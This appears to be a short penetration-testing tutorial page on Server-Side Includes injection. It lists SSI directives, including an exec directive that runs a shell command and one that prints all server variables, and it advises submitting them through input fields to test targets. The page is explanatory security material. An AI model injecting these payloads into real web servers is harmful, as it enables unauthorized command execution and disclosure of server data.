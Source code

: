 ```yaml
---
description: >-
  Server-side includes (SSI) is a technology used by web applications to create
  dynamic content on HTML pages before loading or during the rendering process
  by evaluating SSI directives.
---
```


# Server-Side Includes (SSI)

_**Some SSI directives are:**_

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

The use of SSI on a web application can be identified by checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

We need to submit payloads to the target application, such as the ones mentioned above, through input fields to test for SSI injection. The web server will parse and execute the directives before rendering the page if a vulnerability is present, but be aware that those vulnerabilities can exist in blind format too. Successful SSI injection can lead to extracting sensitive information from local files or even executing commands on the target web server.



### SSI Injection Example:



_**Print Data:**_

<figure><img src="../../.gitbook/assets/Screenshot 2023-08-21 130503.png" alt=""><figcaption></figcaption></figure>

_**Print All Variables:**_

<figure><img src="../../.gitbook/assets/Screenshot 2023-08-21 130534.png" alt=""><figcaption></figcaption></figure>
